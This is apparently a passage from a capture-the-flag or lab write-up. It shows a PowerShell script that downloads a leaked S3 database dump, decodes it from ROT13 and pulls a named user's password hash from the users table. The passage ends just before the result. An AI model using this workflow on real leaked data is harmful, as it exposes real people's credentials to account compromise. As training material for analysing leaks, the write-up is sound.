 ```

Write-Host "[1/4] Downloading leaked S3 object..." -ForegroundColor Cyan
Invoke-WebRequest -Uri $Url -OutFile $Rot13File -ErrorAction Stop
Write-Host "[+] Downloaded file: $Rot13File"

Write-Host "[2/4] Decoding ROT13..." -ForegroundColor Cyan
$content = Get-Content -Path $Rot13File -Raw -Encoding UTF8
$decoded = Decode-Rot13 $content
Set-Content -Path $DecodedFile -Value $decoded -Encoding UTF8
Write-Host "[+] Wrote decoded dump to: $DecodedFile"

Write-Host "[3/4] Searching for COPY users section..." -ForegroundColor Cyan
$lines = Get-Content -Path $DecodedFile

# Find the COPY line related to users
$copyStart = ($lines | Select-String -Pattern 'COPY public\.users|COPY users' -CaseSensitive:$false).LineNumber
if (-not $copyStart) {
    # If not found, look for "COPY public.hfref" because this dump is ROT13 encoded
    $copyStart = ($lines | Select-String -Pattern 'COPY public\.hfref|COPY hfref' -CaseSensitive:$false).LineNumber
}

if (-not $copyStart) {
    Write-Host "[!] Could not find any user table COPY block." -ForegroundColor Red
    exit 1
}

# Get the data block
$block = @()
for ($i = $copyStart; $i -lt $lines.Count; $i++) {
    if ($lines[$i] -eq '\.') { break }
    $block += $lines[$i]
}

# Parse column names
$headerLine = $lines[$copyStart - 1]
$columns = ($headerLine -replace 'COPY public\.[^\(]+\(|\) FROM stdin;','') -split ',' | ForEach-Object { $_.Trim() }
$pwdIndex = [Array]::IndexOf($columns, 'password_hash')
if ($pwdIndex -lt 0) { $pwdIndex = [Array]::IndexOf($columns, 'cnffjbeq_unfu') }

Write-Host "[4/4] Looking for user $TargetFirst $TargetLast..." -ForegroundColor Cyan
foreach ($row in $block) {
    if ($row -match $TargetFirst -and $row -match $TargetLast) {
        $fields = $row -split "`t"
        if ($pwdIndex -ge 0 -and $pwdIndex -lt $fields.Count) {
            $hash = $fields[$pwdIndex]
            Write-Host "`n=== RESULT ==="
            Write-Host ("Password hash for {0} {1}:`n{2}" -f $TargetFirst, $TargetLast, $hash) -ForegroundColor Green
            exit 0
        } else {
            Write-Host "[!] Password hash column not found for that row." -ForegroundColor Red
            exit 1
        }
    }
}

Write-Host "[!] Could not find password hash for $TargetFirst $TargetLast." -ForegroundColor Red
exit 1
```
We get the hash as follows:  